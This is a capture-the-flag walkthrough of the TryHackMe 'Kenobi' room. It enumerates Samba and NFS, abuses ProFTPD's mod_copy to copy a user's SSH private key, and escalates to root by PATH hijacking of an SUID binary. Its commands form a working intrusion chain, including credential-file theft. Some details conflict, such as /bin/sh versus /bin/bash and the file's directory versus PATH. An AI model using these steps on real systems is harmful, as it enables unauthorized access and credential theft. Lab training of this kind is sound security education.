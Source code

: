 # Tryhackme Kenobi Room Address

***https://tryhackme.com/room/kenobi***

Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation. 

----------------------------------------

This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.

##  [Task 1] Deploy the vulnerable machine 

### 1 : Make sure you're connected to our network and deploy the machine

### 2 : Scan the machine with nmap, how many ports are open?

**nmap -sC -sV <machine ip>**
ports : ***7***

-------------------------------------------

Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often refereed to as a network file system.

## [Task 2] Enumerating Samba for shares 

### 1 : Using nmap we can enumerate a machine for SMB shares.

***nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>***

Using the nmap command above, how many shares have been found?

***3***

### 2 : On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.

***smbclient //<ip>/anonymous***

Once you're connected, list the files on the share. What is the file can you see?

***log.txt***

### 3 : You can recursively download the SMB share too. Submit the username and password as nothing.

***smbget -R smb://<ip>/anonymous***

now we have the log.txt

What port is FTP running on?

***21***

### 4 :  	

Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

***nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>***

What mount can we see?

***var***

----------------------------------------------

ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.

##  [Task 3] Gain initial access with ProFtpd 

### 1 : Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

What is the version?

***1.3.5***

### 2 : We can use searchsploit to find exploits for a particular software version.

Searchsploit is basically just a command line search tool for exploit-db.com.

How many exploits are there for the ProFTPd running?

***3***

### 3 :  	You should have found an exploit from ProFtpd's mod_copy module. 

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

### 4 : We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

***ftp <ip>***

login with user as anonymous and password as anonymous

now

***site cpfr /home/kenobi/.ssh/id_rsa***

***site cpto /var/tmp/id_rsa***

### 5 : Lets mount the /var/tmp directory to our machine

```
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

now copy the id_rsa to our directory

***umount mnt/kenobiNFS***

***chmod 600 id_rsa***

***ssh -i id_rsa kenobi@<ip>***

now we have the user flag

------------------------------------------

##  [Task 4] Privilege Escalation with Path Variable Manipulation 

### 1 : SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: find / -perm -u=s -type f 2>/dev/null

What file looks particularly out of the ordinary? 

***/usr/bin/menu***

### 2 : Run the binary, how many options appear?

***3***

### 3 : Strings is a command on Linux that looks for human readable strings on a binary.

***strings /usr/bin/menu***

```
curl -I localhost
uname -r
ifconfig
```

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

***echo /bin/bash > curl***

***chmod 777 curl***

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

***export PATH=/tmp:$PATH***

now run

***/usr/bin/menu***

enter a choice and now we are ***root***

***---------------------------------------------------***
